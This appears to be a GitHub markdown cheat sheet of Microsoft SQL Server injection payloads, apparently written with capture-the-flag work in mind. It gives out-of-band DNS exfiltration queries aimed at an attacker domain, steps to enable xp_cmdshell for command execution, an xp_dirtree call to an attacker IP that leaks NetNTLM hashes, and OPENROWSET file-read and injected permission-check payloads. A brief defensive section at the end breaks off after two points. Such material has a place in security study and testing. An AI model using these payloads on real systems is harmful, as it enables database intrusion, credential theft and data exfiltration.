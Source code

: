 # SQL injection

## Out-of-band DNS
### MSSQL
|SQL function|SQL query|
|--|--|
|`master..xp_dirtree`|`DECLARE @T varchar(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_dirtree "\\'+@T+'.YOUR.DOMAIN\\x"');`|
|`master..xp_fileexist`|`DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_fileexist "\\'+@T+'.YOUR.DOMAIN\\x"');`|
|`master..xp_subdirs`|`DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_subdirs "\\'+@T+'.YOUR.DOMAIN\\x"');`|
|`sys.dm_os_file_exists`|`DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM sys.dm_os_file_exists('\\'+@T+'.YOUR.DOMAIN\x');`|
|`fn_trace_gettable`|`DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_trace_gettable('\\'+@T+'.YOUR.DOMAIN\x.trc',DEFAULT);`|
|`fn_get_audit_file`|`DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_get_audit_file('\\'+@T+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);`|
> **Note:** Notice how in all of the above payloads we start by declaring `@T` as `VARCHAR` then add our query within it, and then we add it to the domain. This will become handy later on when we want to split `@T` into multiple strings so it fits as a sub-domain. It is also useful to ensure whatever result we get is a string, otherwise it may break our query.

#### Splitting result
`DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), <flag>), 1) from flag; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63); SELECT * FROM fn_get_audit_file('\\'+@A+'.'+@B+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);`

## RCE
### MSSQL
|Request|Command|
|--|--|
|Check permission|`IS_SRVROLEMEMBER('sysadmin');`|
|Enabling advanced options|`EXEC sp_configure 'Show Advanced Options', '1';RECONFIGURE;`|
|Enabling xp_cmdshell|`EXEC sp_configure 'xp_cmdshell', '1';RECONFIGURE;`|
|ping \<host\>|`EXEC xp_cmdshell 'ping /n 4 <host>';`|

## Leaking NetNTLM Hashes (MSSQL)
1. Run [responder](https://github.com/lgandx/Responder).
2. Get NTLM hash: `EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1`

## File Read
### MSSQL
If we have the correct permissions, we can read files via an (MS)SQL injection. To do so we can use the [OPENROWSET](https://learn.microsoft.com/en-us/sql/t-sql/functions/openrowset-transact-sql?view=sql-server-ver16) function with a **bulk** operation.

#### Syntax
The syntax looks like this. **SINGLE_CLOB** means the input will be stored as a **varchar**, other options are **SINGLE_BLOB** which stores data as **varbinary**, and **SINGLE_NCLOB** which uses **nvarchar**.


```sql
-- Get the length of a file
SELECT LEN(BulkColumn) FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x

-- Get the contents of a file
SELECT BulkColumn FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x
```

#### Checking permissions
```sql
SELECT COUNT(*) FROM fn_my_permissions(NULL, 'DATABASE') WHERE permission_name = 'ADMINISTER BULK OPERATIONS' OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS';
```

##### Exploitation (example)
```sql
maria' AND (SELECT COUNT(*) FROM fn_my_permissions(NULL, 'DATABASE') WHERE permission_name = 'ADMINISTER BULK OPERATIONS' OR permission_name = 'ADMINISTER DATABASE BULK OPERATIONS')>0;--
```

## Defending
### MSSQL
1. Don't Run Queries as Sysadmin!

> First and foremost, don't use **sa** to run your queries.

2. Disable Dangerous Functions